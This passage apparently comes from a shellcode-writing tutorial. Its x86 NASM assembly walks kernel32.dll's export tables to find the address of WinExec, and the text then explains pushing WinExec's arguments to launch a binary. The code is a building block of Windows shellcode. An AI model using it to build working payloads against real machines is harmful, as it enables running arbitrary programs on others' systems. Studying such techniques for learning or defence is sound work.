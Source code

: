 ```nasm

mov edi, [eax + 20h]
add edi, ebx
mov [ebp-10h], edi

mov edx, [eax + 1Ch]
add edx, ebx
mov [ebp-14h], edx

mov edx, [eax + 14h]

xor eax, eax
```

Loop:

```nasm
.loop:
    mov edi, [ebp-10h]
    mov esi, [ebp-4]
    xor ecx, ecx

    cld
    mov edi, [edi + eax*4]

    add edi, ebx
    add cx, 8
    repe cmpsb

    jz start.found

    inc eax
    cmp eax, edx
    jb start.loop

    add esp, 26h
    jmp start.end

.found:
    ; the counter (eax) now holds the position of WinExec
    mov ecx, [ebp-0Ch]     ; ecx = var12 = Address of Ordinal Table
    mov edx, [ebp-14h]     ; edx = var20 = Address of Address Table
    mov ax, [ecx + eax*2]
    mov eax, [edx + eax*4] ; eax = address of WinExec =
    add eax, ebx           ; = kernel32.dll base address + RVA of WinExec
```

At the conclusion of the resulting shellcode, `EAX` will contain the address of `WinExec`. The final step is to push WinExec's argument (the binary to be executed) onto the stack.

We will also use the second argument, window state, passing its default value `SW_SHOWDEFAULT`, which can also be passed as the number `10`.
